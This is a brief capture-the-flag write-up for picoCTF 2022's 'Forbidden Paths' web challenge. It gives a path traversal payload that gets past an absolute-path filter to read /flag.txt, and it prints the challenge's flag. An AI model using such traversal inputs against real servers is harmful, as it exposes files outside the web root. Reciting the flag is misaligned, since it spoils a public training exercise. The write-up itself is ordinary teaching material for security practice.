 # Forbidden Paths  
## Description
Tags: picoCTF 2022Web Exploitation
AUTHOR: LT 'SYREAL' JONES
Description
Can you get the flag?Here's the website.We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
Use relative path, go back to /
## Payload

    ../../../../../../flag.txt
    
![image](https://user-images.githubusercontent.com/77699526/187519079-8a5b7651-23bb-44c1-b97b-887234e7a027.png)


## Flag
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
